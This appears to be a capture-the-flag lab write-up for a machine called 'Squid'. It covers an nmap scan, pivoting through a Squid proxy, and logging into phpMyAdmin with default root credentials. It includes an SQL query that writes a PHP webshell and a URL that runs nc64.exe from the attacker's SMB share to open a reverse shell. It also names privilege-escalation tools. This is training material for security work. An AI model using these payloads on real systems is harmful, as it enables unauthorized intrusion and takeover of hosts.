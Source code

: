 # Squid

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.233.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 15:29 +08
Nmap scan report for 192.168.233.189
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
3128/tcp open  squid-http
```

Only one port is open.

### Squid Proxy --> FoxyProxy

The port was a Squid Proxy instance. When visited in a browser, this is all we see:

<figure><img src="../../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

Since this is a proxy service, it might be the gateway that we need to access the services running on the machine itself. To scan the machine, we can include this line in our `/etc/proxychains4.conf` file:

```
socks5 192.168.233.189 3128
```

Afterwards, we can use `proxychains` to scan the machine again to find more ports that are open,  but this takes far too long. Instead, we can use FoxyProxy to attempt to view some interesting ports. I tried with a few ports like 80, 443 and 8080 for websites, and found a service on port 8080.

<figure><img src="../../../.gitbook/assets/image (5) (3) (3).png" alt=""><figcaption></figcaption></figure>

### Default Creds --> SQL RCE

There's a PHPMyAdmin instance present on the page, and we can login using `root` as the username with no password.

<figure><img src="../../../.gitbook/assets/image (21) (1) (6).png" alt=""><figcaption></figcaption></figure>

Since this is already the administrative interface, we can get a shell by creating a database and then executing some SQL commands in it via the web SQL interpreter.&#x20;

<figure><img src="../../../.gitbook/assets/image (101) (4) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can select this database and head to the QUERY tab:

<figure><img src="../../../.gitbook/assets/image (104) (4).png" alt=""><figcaption></figcaption></figure>

We can test it with any query and see that it is indeed processing SQL queries:

<figure><img src="../../../.gitbook/assets/image (102) (5).png" alt=""><figcaption></figcaption></figure>

Since we can submit queries, we can also write files into the file system of the machine. I wanted to write a basic PHP webshell, but this means we need to know the webroot file. Very conveniently, there's a `phpinfo` page on the main Wampserver page.&#x20;

There, we can find the `DOCUMENT_ROOT`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

We can then use this query to write a webshell onto the machine:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' into outfile "C:\\wamp\\www\\backdoor.php"
```

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can test our RCE:

<figure><img src="../../../.gitbook/assets/image (159) (3).png" alt=""><figcaption></figcaption></figure>

Great! No all we need to do is get a reverse shell as the user. By setting up a SMB server on our machine with `nc64.exe` within the directory, we can send this to get a shell:

```
http://192.168.233.189:8080/backdoor.php?cmd=\\192.168.45.161\share\nc64.exe+-e+cmd.exe+192.168.45.161+4444
```

<figure><img src="../../../.gitbook/assets/image (157) (7).png" alt=""><figcaption></figcaption></figure>

There is no privilege escalation, because we have successfully gotten a SYSTEM shell.&#x20;

{% hint style="info" %}
This machine was changed since I last did it in 2022. My older writeups show that the machine was running as LOCAL SYSTEM instead of the SYSTEM user.

The old box would give us intial access with the LOCAL SYSTEM user without any privileges, and we had to use either schtasks or FullPowers.exe to give us a shell with the full privileges of a LOCAL SYSTEM user that includes SeImpersonatePrivilege, which we can then use PrintSpoofer.exe or JuicyPotato.exe to get a SYSTEM shell.
{% endhint %}
